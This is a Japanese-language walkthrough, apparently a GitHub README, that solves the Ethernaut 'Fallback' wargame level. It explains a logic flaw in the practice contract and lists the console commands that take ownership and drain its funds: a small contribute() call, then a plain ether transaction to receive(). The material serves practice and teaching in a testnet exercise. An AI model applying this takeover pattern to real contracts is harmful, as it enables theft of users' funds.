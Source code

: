 これはクリアしたレベルの解決策です。
**解決策を見ることをお勧めしません。学習のために自分で解決してください 😛 **

# Ethernautの使用方法
- Ethernautを使用するには、まずブラウザの開発者ツールからコンソールを使用する必要があります。
- Foundryとcastおよびsendを使用した方法の呼び出しに慣れている場合、Foundryフレームワークから問題を解決することもできます。
- まだABIに慣れていない場合、それを使用して任意のコントラクトを外部呼び出しで呼び出す方法について学び、理解するのに最適な方法です。
- より高難度のレベルでは、スマートコントラクトとインターフェースを作成して、いくつかのスマートコントラクトを外部からハッキングするために解レベルをクリアする必要があります。

## Ethernaut 1. Fallback

目標は、そのスマートコントラクトのオーナーになり、中にあるすべての資金を奪うことです。


<br/>
<p align="center">
<img src="./images/fallback.png" width="900" alt="Ethernaut Fallback">
</p>
<br/>

- このコントラクトには論理エラーがあります。データを含めずに `0.0001 eth` を送信することで、 `receive()` 関数を通れる、そしてコントラストのオーナーを変更出来ます。


```bash
// contribute() 関数に正しい金額のetherを指定して呼び出します。
> await contract.contribute({value:toWei("0.0001", "ether")})

// 契約にはペイアブルなフォールバック receive 関数があるため、
// ether の金額と空のデータで契約にトランザクションを送信します

// 下記のコマンドについて、`THE CONTRACT 0x000 ADDRESS` はレベルを開始したときに作成したコントラクトアドレス、`YOUR 0x000 ADDRESS` はあなたのテストネット用のアドレス。
> await web3.eth.sendTransaction({to:"THE CONTRACT 0x000 ADDRESS", value:toWei("0.0001", "ether"), from:"YOUR 0x000 ADDRESS"})

(例：await web3.eth.sendTransaction({to:"0x03e95A7EC5F0A70b0855CcBBc2EE428d5a4A3147", value:toWei("0.0001", "ether"), from:"0xe071EeD2EB7CA3514e40d81533046aa90D12f768"}))
```